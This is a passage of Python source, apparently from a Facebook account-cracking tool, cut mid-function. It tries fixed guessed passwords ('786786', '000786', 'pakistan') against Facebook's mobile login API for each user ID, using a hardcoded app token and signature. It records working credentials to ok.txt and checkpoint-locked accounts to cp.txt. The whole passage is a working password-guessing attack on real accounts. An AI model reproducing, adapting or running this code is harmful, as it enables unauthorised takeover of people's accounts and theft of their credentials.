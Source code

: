 		                                    oks.append(uid)
		                                else:
		                                    pass5="786786"
		                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                    d=json.loads(q)
		                                    if 'www.facebook.com' in d['error_msg']:
		                                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass5+"\x1b[1;91m | \x1b[1;97m"+name)
		                                        cp=open("cp.txt","a")
		                                        cp.write(uid+" | "+pass5+"\n")
		                                        cp.close()
		                                        cps.append(uid)
		                                    else:
		                                        if 'access_token' in d:
		                                            print("\x1b[1;92m[Successfull] "+uid+" | "+pass5+" | "+name)
		                                            ok=open("ok.txt","a")
		                                            ok.write(uid+" | "+pass5+"\n")
		                                            ok.close()
		                                            oks.append(uid)
		                                        else:
		                                            pass6="000786"
		                                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass6 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                            d=json.loads(q)
		                                            if 'www.facebook.com' in d['error_msg']:
		                                                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass6+"\x1b[1;91m | \x1b[1;97m"+name)
		                                                cp=open("cp.txt","a")
		                                                cp.write(uid+" | "+pass6+"\n")
		                                                cp.close()
		                                                cps.append(uid)
		                                            else:
		                                                if 'access_token' in d:
		                                                    print("\x1b[1;92m[Successfull] "+uid+" | "+pass6+" | "+name)
		                                                    ok=open("ok.txt","a")
		                                                    ok.write(uid+" | "+pass6+"\n")
		                                                    ok.close()
		                                                    oks.append(uid)
		                                                else:
		                                                    pass7="pakistan"
		                                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass7 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                                    d=json.loads(q)
		                                                    if 'www.facebook.com' in d['error_msg']:
		                                                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass7+"\x1b[1;91m | \x1b[1;97m"+name)
		                                                        cp=open("cp.txt","a")
		                                                        cp.write(uid+" | "+pass7+"\n")
		                                                        cp.close()
		                                                        cps.append(uid)
		                                                    else:
		                                                        if 'access_token' in d:
		                                                            print("\x1b[1;92m[Successfull] "+uid+" | "+pass7+" | "+name)
		                                                            ok=open("ok.txt","a")
		                                                            ok.write(uid+" | "+pass7+"\n")
		                                                            ok.close()
		                                                            oks.append(uid)